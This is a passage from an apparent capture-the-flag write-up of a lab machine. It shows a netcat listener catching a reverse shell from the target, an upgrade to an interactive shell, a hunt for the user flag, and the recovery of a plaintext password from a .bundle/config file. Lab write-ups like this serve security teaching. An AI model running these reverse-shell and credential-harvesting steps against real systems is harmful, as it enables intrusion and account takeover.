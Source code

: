 ```bash
POSTARG: url
EXPLOIT: Payload sent to website!
SUCCESS: Exploit performed action.
```

Back to our listener:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.189] 45308
id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
```

Success!

## Lateral movement

Before moving forward, let's first upgrade our shell and get our first flag:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
ruby@precious:/var/www/pdfapp$
ruby@precious:/var/www/pdfapp$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/home/henry/user.txt
```

The `user.txt` file is within `henry`'s directory, therefore, we cannot read it! We will have to find a way to obtain control of its account. Let's start by exploring our home directory:

```bash
ruby@precious:~$ ls -la
ls -la
total 28
drwxr-xr-x 4 ruby ruby 4096 Jan 19 13:35 .
drwxr-xr-x 4 root root 4096 Oct 26  2022 ..
lrwxrwxrwx 1 root root    9 Oct 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 19 13:35 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile
ruby@precious:~$ ls -la .bundle
ls -la .bundle
total 12
dr-xr-xr-x 2 root ruby 4096 Oct 26  2022 .
drwxr-xr-x 4 ruby ruby 4096 Jan 19 13:35 ..
-r-xr-xr-x 1 root ruby   62 Sep 26  2022 config
ruby@precious:~$ cat .bundle/config
cat .bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```
